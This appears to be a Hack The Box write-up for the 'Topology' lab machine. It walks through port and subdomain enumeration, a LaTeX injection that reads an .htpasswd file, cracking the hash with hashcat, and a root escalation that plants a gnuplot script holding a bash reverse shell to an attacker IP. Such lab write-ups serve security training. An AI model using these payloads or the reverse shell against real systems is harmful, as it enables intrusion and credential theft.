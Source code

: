 ```yaml
---
title: "Hack The Box - Topology [Easy]"
date: 2023-06-30T10:42:27+03:00
draft: true
tags: ["hackthebox"]
---
```


I've started with simple machine enumeration

```bash
$ nmap -sV 10.10.11.217
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

Then I went to `topology.htb` to check out the website, noticed the possible users (according to the email that is formatted like `lklein@topology.htb`). I've enumerated possible users:

```
lklein
vdaisley
dabrahams
```

I went on to figure out what is located at http://latex.topology.htb/equation.php which was the only link on the website. There I found out some LaTeX to PNG convertor. I've figured out that there must be some trickery with this so I went my way to research the topic. 

I've found out the following:
- https://0day.work/hacking-with-latex/
- https://salmonsec.com/cheatsheets/exploitation/latex_injection

These two links, helped me to figure out that I had an LFI vulnerability at hand. Upon searching different files such as `/etc/passwd, /proc/self/cmdline, /proc/self/environ` and so on, I've figured out that I must be missing something. I began to explore what other subdomains (because there is `latex.topology.htb` I thought there would be more) were on the webserver using `ffuf`.

```bash
$ ffuf -w $commontxt -u http://topology.htb/ -H "Host: FUZZ.topology.htb" -r
```

Which yielded the following domains:

- `dev`
- `stats`

I've browsed through those and on the stats there were simple plots about the current usage of the system and that's it. But on the `dev` subdomain there was a Basic Auth in place which I then figured out that I can read the `.htpasswd` with the LFI vulnerability in the `latex.topology.htb` input form. 

I've tried a couple of times to read the file, but there were unsuccessful, and I went my way to figure out why and what's going on. 

I honestly didn't know how can I read the file and I turned out to some help, which I then understood that I can use the `LaTeX/Source Code Listings` which also can read a file with `\lstinputlisting{/var/www/dev/.htpasswd}`, however the website just resulted in no image (possible error) using just this command. 

Here comes this post to the rescue https://tex.stackexchange.com/questions/410863/what-are-the-differences-between-and

Since the website is about math, we can use the `inline math delimiters` that are `$ and $` which can turn my payload from `\lstinputlisting{/var/www/dev/.htpasswd}` to `$\lstinputlisting{/var/www/dev/.htpasswd}$` which resulted into getting the basic auth hash.

```
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTZ0
```

Using `hashcat` we can extract the password

```
$ hashcat -m 1600 crack.txt /usr/share/wordlists/rockyou.txt
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTZ0:goDoItOnYourOwn
```

With that, I tried the users that I've enumerated earlier and the user `vdaisley` worked out, so I went to log in with SSH and got the user flag.


# Root

The root was pretty easy, first we can see which directories are writable:

```
$ find / -type d -writable 2>/dev/null
...
/opt/gnuplot
...
```

This directory looked suspicious, I've fired up `pspy` to checkout what is going on and I got this:

![rwojak](/htb/htb-topology-pspyrun.png)

So we are finding `*.plt` files in this directory, and then we are executing `gnuplot` as root. Using this [article,](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/#command-execution) I've crafted a `test.plt` file with the contents of:

```bash
vdaisley@topology:/opt/gnuplot$ cat ~/test.plt 
system "bash -c 'bash -i >& /dev/tcp/10.10.16.xx/4444 0>&1'"
```

I've copied the file to the `/opt/gnuplot` directory and I've waited to get a remote connection which I got in about a minute. With that I rooted the machine.